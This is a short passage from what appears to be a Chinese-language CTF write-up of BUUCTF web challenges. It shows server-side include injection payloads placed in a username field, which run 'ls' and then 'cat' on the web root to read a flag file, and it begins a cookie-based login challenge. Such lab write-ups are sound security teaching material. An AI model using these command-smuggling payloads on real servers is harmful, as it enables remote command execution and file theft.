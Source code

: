 找一下flag:

```
username=<!--#exec Cmd="ls /var/www/html"-->&password=RhPd
Url_is_here: public/91d348bdde783b66958a00e16e2d24690dddb6d1.shtml
```

<img src="/images/buuctf-web2/image-20221023183312510.png" alt="image-20221023183312510" style="zoom:67%;" />

获得flag:

```
username=<!--#exec Cmd="cat /var/www/html/flag_990c66bf85a09c664f0b6741840499b2"-->&password=RhPd
Url_is_here: public/ed4a75977a0eb529d431e7d8ece70454361578b5.shtml
```



<br>

***

<br>

# [cookie]Kookie

![image-20221023191627611](/images/buuctf-web2/image-20221023191627611.png)

根据提示,使用 cookie/monster 来登录

```
?action=login&username=cookie&password=monster
```
